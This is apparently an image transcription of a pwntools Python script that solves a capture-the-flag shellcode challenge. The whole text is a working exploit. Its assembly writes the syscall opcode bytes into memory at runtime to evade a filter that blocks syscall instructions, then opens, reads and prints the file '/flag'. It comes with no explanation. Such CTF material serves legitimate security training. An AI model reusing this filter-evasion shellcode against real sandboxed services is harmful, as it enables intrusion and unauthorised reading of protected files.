    ```py
   #!/usr/bin/env python3
   from pwn import *

   context.arch = "amd64"
   context.log_level = "DEBUG"

   exe = "./babysc_no_syscall_check"
   elf = context.binary = ELF(exe, checksec=True)
   conn = process(exe)

   shellcode = asm("""
   mov byte ptr [rip + encoded], 0x0f
   mov byte ptr [rip + encoded + 1], 0x05

   mov rax, 0x2
   lea rdi, [rip + path]
   xor esi, esi
   xor edx, edx
   call encoded

   mov rdi, rax

   xor rax, rax
   mov rsi, rsp
   mov rdx, 0x50
   call encoded

   mov rdx, rax
   mov rax, 0x1
   mov edi, 0x1
   mov rsi, rsp
   call encoded

   mov rax, 60
   xor edi, edi
   call encoded

   encoded:
       nop
       nop

   path:
       .string "/flag"
   """)

   conn.recvuntil(b"Enter 0x1000")
   shellcode = shellcode.ljust(0x1000, b"\x90")
   conn.send(shellcode)

   conn.interactive()
   ```
